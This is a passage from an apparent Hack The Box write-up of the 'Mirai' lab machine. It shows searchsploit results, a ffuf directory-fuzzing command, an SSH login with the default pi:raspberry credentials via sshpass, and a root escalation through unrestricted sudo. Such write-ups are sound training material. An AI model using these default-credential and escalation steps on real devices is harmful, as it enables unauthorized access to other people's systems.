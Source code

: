 	| Exploit Title | Path |
	| ------------- | ---- |
	|Pi-hole < 4.4 - Authenticated Remote Code Execution                                                                                       | linux/webapps/48442.py
	|Pi-hole < 4.4 - Authenticated Remote Code Execution / Privileges Escalation                                                               | linux/webapps/48443.py
3. We must be authenticated first.
4. I tried to further enumerate the web directory for files that contain credentials, failed.
	```
	┌──(root💀kali)-[~/htb/mirai/10.10.10.48/loot]
	└─# ffuf -u http://10.10.10.48/FUZZ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -e '.txt' -fw 1,0,5
	```

## TCP/43400 (HTTP) - Plex Media Server
1. Found `Plex Media Server` login page, version unknown
2. Search exploits for `Plex Media Server`

	| Exploit Title                                                    | Path                       |
	| ---------------------------------------------------------------- | -------------------------- |
	| Plex Media Server 0.9.9.2.374-aa23a69 - Multiple Vulnerabilities | multiple/webapps/31983.txt |
3. Tried some of the POC, did not work.

## TCP/22 (SSH) - Default Credentials
1. Earlier, we enumerated a domain name, `raspberrypi.local`, is a hint that the target could be running `raspberry pi OS`.
2. By default, `raspberry pi` login details are `pi:raspberry`
3. SSH w/ `pi:raspberry`
	```
	┌──(root💀kali)-[~/htb/mirai]
	└─# sshpass -p "raspberry" ssh pi@raspberrypi.local 
	```
	![]({{ page.img_path }}Pasted%20image%2020220916214421.png)

# Privilege Escalation

## Root - Via SUDO
1. Check sudo access for user `pi`
	```
	pi@raspberrypi:~ $ sudo -l
	Matching Defaults entries for pi on localhost:
	    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin
	
	User pi may run the following commands on localhost:
	    (ALL : ALL) ALL
	    (ALL) NOPASSWD: ALL
	```
	- Able to run all commands as root
2. Privilege escalate w/ `su`
	```
	pi@raspberrypi:~ $ sudo su
	root@raspberrypi:/home/pi# id;whoami
	uid=0(root) gid=0(root) groups=0(root)
	root
	```
